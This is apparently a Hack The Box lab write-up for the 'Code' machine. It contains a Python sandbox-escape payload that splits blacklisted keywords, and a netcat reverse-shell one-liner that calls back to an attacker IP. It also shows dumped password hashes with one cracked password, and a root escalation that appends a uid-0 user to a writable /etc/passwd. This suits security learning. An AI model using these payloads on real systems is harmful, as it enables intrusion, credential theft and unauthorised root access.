 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!


Here is a writeup for Hackthebox `code machine`


Hackthebox `Code box `  is an easy linux machine.

We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root


# Nmap scan
```
sudo nmap -A -T4 --min-rate 1000 10.10.11.62                                                                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-21 22:29 WAT                                                             
Nmap scan report for 10.10.11.62                                                                                               
Host is up (0.76s latency).                                                                                                    
Not shown: 998 closed tcp ports (reset)                                                                                        
PORT     STATE SERVICE VERSION                                                                                                 
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)                                           
| ssh-hostkey:                                                                                                                 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)                                                                 
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)                                                                |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)                                                              
5000/tcp open  http    Gunicorn 20.0.4                                                                                         
|_http-title: Python Code Editor                                                                                               
|_http-server-header: gunicorn/20.0.4                                                                                          
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                            
TCP/IP fingerprint:

```

### Found two open port 22 for ssh and 5000 for  http 


When we navigate to http://10.10.11.62:5000/, we found web page that let you run python code.
I try injection in login and singup form by not success.
After some try and error i decide to focus on python code execution feature.
The idea here is to bypass sandbox and make code  code execution.
you can try to play with it to understand it better.
After spend some time, i knew that we deal with python sanbox, some keywork are blacklisted.
keyword like those:  ` system, exec, builtins, os , popen, read,...`. 

How to bypass this sandbox??? 
Below are  the steps:
- found a way to access buitins: print.__self__
- from buitins, access to __import__ to import os: `.__dict__.get('imp' +ort')('o'+'s')
- from os, call system to exec code on the remote server: .__getattribute__("sys" +"tem")
- exec your command: ("command")

The payload :

```python
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("command")"
```


I run nc in listen mode on my local machine
``nc -lvp 4444``

and send this payload:
```python3
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.79 4444 >/tmp/f")

```


# Bouummmm ! get reverse shell 

![recon](/assets/hackthebox/get_reverse_shell.png)

```bash
$ whoami
app-production
$ pwd
/home/app-production/app
$ ls ..
app
linpeas.sh
user.txt
$ cat user.txt
cat: user.txt: No such file or directory
$ cat ../user.txt
809b23efc5263f3987xxxxxxxxxxxxxxxxx
$ id
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production)
$ ls /home
app-production
martin
$ 
```

We have martin user on the machine.
i read app.py and found some credential on it. 
I also noticed that the app use database.db sqlite for to store users info and code.
- Copy database.db into static directory
- download it by navigate to http://10.10.11.62:5000/static/database.db
- use `sqlite3 ` to retrive martin password from database.
```
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|gamer|7f99bef877271bf7dd4aee74c0629e32
sqlite> select * from code;
1|1|print("Functionality test")|Test
sqlite> 
```

martin md5 password is 3de6f30c4a09c27fc71932bfc68474be which is egal to `nafeelswordsmaster`


Now we can use that credential (martin:nafeelswordsmaster) to access to ssh:
```bash
ssh martin@10.10.11.62
```bash
ssh martin@10.10.11.62                                                   
martin@10.10.11.62's password:                                                                 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)                                                                                                                            
                                                                               
 * Documentation:  https://help.ubuntu.com                                     
 * Management:     https://landscape.canonical.com                                             
 * Support:        https://ubuntu.com/pro                                                      
                                                                                                                                                                                                                   
 System information as of Tue 22 Apr 2025 09:01:17 AM UTC                                      
                                                                               
  System load:           0.0                                                                   
  Usage of /:            64.6% of 5.33GB                                                                                                                                                                           
  Memory usage:          20%                                                                                                                                                                                       
  Swap usage:            0%                                                                              
  Processes:             234                                                   
  Users logged in:       0                                                                                                              
  IPv4 address for eth0: 10.10.11.62                                
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9a92                         
                                                                    
                                                                                                                                                              
Expanded Security Maintenance for Applications is not enabled.      
                                                                    
0 updates can be applied immediately.                               
                                                                                                                                                              
Enable ESM Apps to receive additional future security updates.                                                                                                
See https://ubuntu.com/esm or run: sudo pro status                             

                                                                                                                                                              
The list of available updates is more than a week old.                         
To check for new updates run: sudo apt update                                                  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings                                                                         
                                                                               
                                                                               
                                                                               
The programs included with the Ubuntu system are free software;                                                                                                                               
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                                                                                                          
applicable law.                                                                                

Last login: Tue Apr 22 09:01:21 2025 from 10.10.16.79                                          
martin@code:~$ whoami                                                                          
martin                                                                                         
martin@code:~$ id                                                                              
uid=1000(martin) gid=1000(martin) groups=1000(martin)                                          
martin@code:~$
```


# Time to priveEsc

I use linpeas.sh to enumerate
```
ls -al /etc/passwd
```
#### /etc/passwd is writable
so we can add new-user with root access
 - Generate new user password:
 ` openssl passwd -1 -salt ignite pass123`
```bash
echo 'new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new-user
```

![recon](/assets/hackthebox/root.png)
